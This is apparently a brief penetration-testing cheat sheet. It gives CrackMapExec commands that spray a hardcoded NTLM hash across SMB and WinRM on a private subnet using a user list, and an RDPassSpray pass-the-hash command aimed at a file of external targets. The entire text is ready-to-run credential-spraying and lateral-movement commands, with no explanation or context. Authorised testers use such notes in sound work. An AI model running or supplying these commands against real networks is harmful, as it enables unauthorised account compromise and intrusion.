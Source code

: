 
# CRACKMAPEXEC
```bash
crackmapexec smb 192.168.196.0/24 -u users.txt -H ae78a6fea976b71e09e990b903020af6 --continue-on-success
crackmapexec winrm 192.168.196.0/24 -u users.txt -H ae78a6fea976b71e09e990b903020af6 --continue-on-success
```

-----------------------

# RDP
https://github.com/xFreed0m/RDPassSpray
```bash
rdppass -U users.txt -p ae78a6fea976b71e09e990b903020af6 --pth -T external_targets.txt
```
